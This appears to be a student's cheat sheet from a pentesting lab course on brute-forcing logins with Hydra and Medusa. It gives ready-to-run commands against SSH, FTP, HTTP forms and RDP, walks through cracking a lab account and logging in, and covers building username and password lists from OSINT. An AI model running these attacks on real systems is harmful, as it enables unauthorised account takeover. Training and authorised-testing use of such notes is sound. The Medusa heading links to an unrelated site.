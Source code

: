 # Hydra
- Crafting the correct params string is crucial for a successful Hydra attack. Accurate information about the form's structure and behavior is essential for constructing this string effectively. 

- Can brute force FTP, SSH, HTTP, SMTP, POP3, IMAP, MYSQL, MSSQL, VNC, RDP:
- HTTP: `hydra -L usernames.txt -P passwords.txt www.example.com http-get`
- Single SSH: `hydra -l satwossh -P 2023-200_most_used_passwords.txt 94.237.52.228 -s 56874 ssh -I`
- Multiple SSH servers: `hydra -l root -p toor -M targets.txt ssh`
- FTP on non-standard port: `hydra -L usernames.txt -P passwords.txt -s 2121 -V ftp.example.com ftp`
- Web Login Form: `hydra -l admin -P passwords.txt www.example.com http-post-form "/login:user=^USER^&pass=^PASS^:S=302"`
- RDP Brute-forcing: `hydra -l administrator -x 6:8:abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789 192.168.1.100 rdp`

```
POST /login HTTP/1.1
Host: www.example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 29

username=john&password=secret123
```

- Look at the HTML of the login form for details


- The `POST` method indicates that data is being sent to the server to create or update a resource.
- `/login` is the URL endpoint handling the login request.
- The `Content-Type` header specifies how the data is encoded in the request body.
- The `Content-Length` header indicates the size of the data being sent.
- The request body contains the username and password, encoded as key-value pairs.
- Hydra's `http-post-form` service is specifically designed to target login forms: `hydra [options] target http-post-form "path:params:condition_string"`
- You can specify what success or failure is:
  - `hydra ... http-post-form "/login:user=^USER^&pass=^PASS^:F=Invalid credentials"`
  - `hydra ... http-post-form "/login:user=^USER^&pass=^PASS^:S=302"`
  - `hydra ... http-post-form "/login:user=^USER^&pass=^PASS^:S=Dashboard"`

- Form Parameters: These are the essential fields that hold the username and password. Hydra will dynamically replace placeholders (^USER^ and ^PASS^) within these parameters with values from your wordlists.
- Additional Fields: If the form includes other hidden fields or tokens (e.g., CSRF tokens), they must also be included in the params string. These can have static values or dynamic placeholders if their values change with each request.
- Success Condition: This defines the criteria Hydra will use to identify a successful login. It can be an HTTP status code (like S=302 for a redirect) or the presence or absence of specific text in the server's response (e.g., F=Invalid credentials or S=Welcome).

- The form submits data to the root path (`/`).
  - The username field is named `username`.
  - The password field is named `password`.
 
Therefore, the `params` string would be:
- `/:username=^USER^&password=^PASS^:F=Invalid credentials`
  - `"/"`: The path where the form is submitted.
  -  `username=^USER^&password=^PASS^`: The form parameters with placeholders for Hydra.
  -  `F=Invalid credentials`: The failure condition – Hydra will consider a login attempt unsuccessful if it sees this string in the response.
 
Resulting in - `hydra -L top-usernames-shortlist.txt -P 2023-200_most_used_passwords.txt -f IP -s 5000 http-post-form "/:username=^USER^&password=^PASS^:F=Invalid credentials"`

Hydra Flow -
- Brute force http: `hydra -L top-usernames-shortlist.txt -P 2023-200_most_used_passwords.txt http://83.136.252.13 -s 38252 http-get`
- Brute force ssh: `hydra -l satwossh -P 2023-200_most_used_passwords.txt 94.237.52.228 -s 56874 ssh -I`
- Login with ssh: `ssh satwossh@94.237.52.228 -p 56874`
- Brute force ftp: `hydra -L username-anarchy/TM.txt -P passwords.txt -s 21 -V localhost ftp`
- Login with ftp: `ftp 'ftp://thomas:chocolate!@localhost:21'` or `ftp ftp://thomas:chocolate!@localhost:21` or `ftp localhost` or any kind of abbreviation the server accepts - will need to try a few. Even `ftp <IP>` should sometimes prompt a login,

# [Medusa]([url](https://docs.medusajs.com/learn/fundamentals/modules))
- `man medusa`
- Modules (-M) are case sensitive, both the flag (M) and the modules you call. `HTTP` will fail but `http` wont etc.
- Whether the flag is capitlized or not will mean different things

- `medusa [target_options] [credential_options] -M module [module_options]`
- Useful for FTP, HTTP, IMAP, MYSQL, POP3, RDP, SSHV2, SUBVERSION(SVN), TELNET, VNX, Web Form.
- SSH Server: `medusa -h 192.168.0.100 -U usernames.txt -P passwords.txt -M ssh`
- Multiple HTTP Auth: `medusa -H web_servers.txt -U usernames.txt -P passwords.txt -M http -m GET `
- test for empty or default passwords (where user = password: `medusa -h 10.0.0.5 -U usernames.txt -e ns -M service_name`

- Reminder SSH Login: `ssh sshuser@<IP> -p PORT`

- Find SSH access --> run `nmap localhost` --> run new medusa command on FTP port found: `medusa -h 127.0.0.1 -u ftpuser -P 2020-200_most_used_passwords.txt -M ftp -t 5` --> Found ftpuser password then run `ftp <IP>` --> enter user --> enter password -->> find file --> `get filename1` --> now in SSH shell

- Make a custom wordlist with `Username Anarchy`
  - `/username-anarchy Jane Smith > jane_smith_usernames.txt`
  - txt file created will have a bunch of username variations based off `Jane Smith`
 
- Make custom password lists with `CUPP`:
  - CUPP will take your inputs and create a comprehensive list of potential passwords
  - OSINT will be a goldmine of information for CUPP
  - Spawn CUPP with `cupp -i` and follow the prompts
 
Basic http: `medusa -h 83.136.252.13 -n 38252 -U top-usernames-shortlist.txt -P 2023-200_most_used_passwords.txt -M http`

| Option | Description | Example |
|--------|-------------|---------|
| `-h HOST` | Target host (IP or hostname) | `medusa -h 192.168.1.100 ...` |
| `-H FILE` | File containing target hosts | `medusa -H hosts.txt ...` |
| `-u USER` | Username to test | `medusa -u admin ...` |
| `-U FILE` | File containing usernames | `medusa -U users.txt ...` |
| `-p PASS` | Password to test | `medusa -p password123 ...` |
| `-P FILE` | File containing passwords | `medusa -P passwords.txt ...` |
| `-C FILE` | File containing username:password combinations | `medusa -C combos.txt ...` |
| `-O FILE` | Write found logins to file | `medusa -O found_logins.txt ...` |
| `-t THREADS` | Number of threads (default: 8) | `medusa -t 16 ...` |
| `-T SECONDS` | Total timeout in seconds | `medusa -T 300 ...` |
| `-f` | Stop after first successful login per host | `medusa -f ...` |
| `-F` | Stop after first successful login (global) | `medusa -F ...` |
| `-v` | Verbose mode | `medusa -v ...` |
| `-d` | Display list of available modules | `medusa -d` |
| `-n PORT` | Use non-default port | `medusa -n 2222 ...` |
| `-s` | Enable SSL | `medusa -s ...` |
| `-m` | Module-specific parameters | `medusa -m DIR:/admin ...` |


